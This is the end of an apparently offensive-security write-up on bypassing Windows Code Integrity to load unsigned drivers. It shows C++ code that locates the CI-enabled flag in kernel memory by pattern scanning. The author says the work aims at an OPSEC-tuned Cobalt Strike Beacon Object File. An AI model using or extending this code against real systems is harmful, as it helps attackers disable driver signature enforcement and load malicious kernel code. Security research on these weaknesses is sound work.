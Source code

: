 ```c++
        }
        offset += hs.len;
    } while (offset < 256);

	if (relativeValue == 0)
		return STATUS_UNSUCCESSFUL;

	ptrCode = ptrCode + offset + hs.len + relativeValue;
    // calculate the actual address in kernel space
    // by adding the offset and substracting the base address
    // of the locally mapped copy from the kernel module base address
	resolvedAddress = ImageLoadedBase + ptrCode - (PBYTE)ImageMappedBase;

	*ResolvedAddress = resolvedAddress;
	return STATUS_SUCCESS;
}
```

`QueryCiEnabled()` uses a hardcoded value of `0x1D8806EB` to calculate and resolve the offset.

```c++
NTSTATUS QueryCiEnabled(HMODULE ImageMappedBase, ULONG_PTR ImageLoadedBase, ULONG_PTR* ResolvedAddress, SIZE_T SizeOfImage) {
	NTSTATUS status = STATUS_UNSUCCESSFUL;
	SIZE_T c;
	LONG rel = 0;

	*ResolvedAddress = 0;

	for (c = 0; c < SizeOfImage - sizeof(DWORD); c++) {
		if (*(PDWORD)((PBYTE)ImageMappedBase + c) == 0x1d8806eb) {
			rel = *(PLONG)((PBYTE)ImageMappedBase + c + 4);
			*ResolvedAddress = ImageLoadedBase + c + 8 + rel;
			status = STATUS_SUCCESS;
			break;
		}
	}
	return status;
}
```

### 5. Conclusion

Programmatically loading drivers has its challenges, but it goes to show if you're willing to mess around in memory a bit, Windows security components can be bypassed with relative ease. A lot of existing research and exploits are already out there and Microsoft has put in little effort to mitigate them or update existing functionality like Code Integrity to be better protected against attacks. Even if additional patches have fixed certain issues, chaining different exploits together still gets the job done.

I'm still busy investigating the exact workings of `QueryCiEnabled()` and `QueryCiOptions()` as I would like to remove dependencies on hardcoded offsets or external libraries/tools like Hacker Disassembler Engine 64. Once this process is complete, I can move on to optimizing code for OPSEC purposes, for example implementing direct syscalls as much as possible, and then convert the final result to a Beacon Object File for Cobalt Strike.